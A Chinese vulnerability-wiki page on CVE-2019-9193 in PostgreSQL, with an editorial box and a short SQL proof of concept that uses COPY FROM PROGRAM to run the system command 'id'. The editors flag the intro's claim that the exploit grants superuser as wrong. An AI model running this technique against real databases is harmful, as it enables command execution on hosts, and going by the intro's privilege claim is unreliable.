


# （CVE-2019-9193）PostgreSQL 高权限命令执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：程序执行所需超级用户/显式授权角色，正文未明确
- 证据范围：与84相同核心 SQL，但简介倒置权限关系，声称利用后才得到数据库超级权限；实际示例未证明提权

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 必须恢复高权限前置条件并注明厂商争议立场
- 9.3至11.2不可暗示后续版本删除该功能或已修复
- 图片残尾，DROP TABLE 副作用未标明

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

一、漏洞简介
------------

PostgreSQL
9.3至11.2版本中的导入导出数据命令`COPY TO/FROM PROGRAM`存在操作系统命令注入漏洞。攻击者可利用该漏洞获取数据库超级用户权限，从而执行任意系统命令。

二、漏洞影响
------------

PostgreSQL 9.3至11.2

三、复现过程
------------

首先连接到postgres中，并执行如下POC：

    DROP TABLE IF EXISTS cmd_exec;
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'id';
    SELECT * FROM cmd_exec;

PostgreSQL高权限命令执行漏洞/media/rId24.png)

PostgreSQL高权限命令执行漏洞/media/rId25.png)
